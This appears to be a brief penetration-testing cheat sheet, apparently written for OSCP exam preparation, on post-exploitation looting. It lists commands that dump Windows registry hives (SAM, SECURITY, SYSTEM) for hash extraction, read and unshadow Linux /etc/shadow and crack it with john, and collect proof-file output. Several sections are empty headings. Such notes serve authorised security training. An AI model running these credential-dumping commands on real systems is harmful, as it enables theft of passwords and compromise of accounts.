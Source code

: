 # Loot, Booty & Plunder

## Methodology

### Dump users hashes

#### Windows

* Using fgdump, wce32.exe
* Extract registries then use secretdump.py or pwdump

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

* [https://pure.security/dumping-windows-credentials/](https://pure.security/dumping-windows-credentials/)

#### Linux

```
cat /etc/passwd
cat /etc/shadow

unshadow passwd shadow > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

### Search for creds

### Check available services for data

### Re-check network config

## OSCP Proof Files

```
# Windows
type proof.txt && whoami && hostname && ipconfig

# Linux
cat proof.txt && whoami && hostname && ip addr
```
